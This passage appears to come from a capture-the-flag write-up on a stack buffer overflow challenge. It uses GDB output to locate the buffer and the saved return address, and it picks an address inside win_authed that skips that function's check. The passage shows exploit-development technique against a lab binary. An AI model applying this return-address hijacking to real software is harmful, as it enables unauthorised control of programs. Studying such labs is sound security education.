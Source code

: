 The program has now read our payload.

The `read` syscall takes the following arguments:

```c
ssize_t read(int fd, void buf[.count], size_t count);
```

We can see that the second argument is the location to which input is read, and it is stored in `$rsi`.

```
gef➤  p $rsi
$2 = 0x7ffdf99af5b0
```

In this challenge, we have no `win` variable to overwrite.

The way we can divert flow of the program is by overwriting the return address.

We know that the base pointer `$rbp` points to the saved base pointer of the caller function.

Let's check this:

```
gef➤  x/a $rbp
0x7ffdf99af610: 0x7ffdf99b0640
```

The base pointer `$rbp` has the value `0x7ffdf99af610` and it points to `0x7ffdf99b0640` which is the `$rbp` of the caller function.

And the return address is stored right before the caller functions base pointer. In our case at `$rbp + 8`.

```
gef➤  x/a $rbp + 8
0x7ffdf99af618: 0x4019aa <main+238>
```

As we can see the return address is `main+238` and it is located at `0x7ffdf99af618`.

We want to replace this value with the address in the `win_authed` function such that it skips the check.

```
gef➤  disass win_authed
Dump of assembler code for function win_authed:
   0x000000000040168a <+0>:     endbr64 
   0x000000000040168e <+4>:     push   rbp
   0x000000000040168f <+5>:     mov    rbp,rsp
   0x0000000000401692 <+8>:     sub    rsp,0x10
   0x0000000000401696 <+12>:    mov    DWORD PTR [rbp-0x4],edi
   0x0000000000401699 <+15>:    cmp    DWORD PTR [rbp-0x4],0x1337
   0x00000000004016a0 <+22>:    jne    0x401798 <win_authed+270>
   0x00000000004016a6 <+28>:    lea    rdi,[rip+0x95b]        # 0x402008
```

As we can see the win function starts at `0x000000000040168a`. However the address we want to overwrite the return address with is `0x00000000004016a6`.
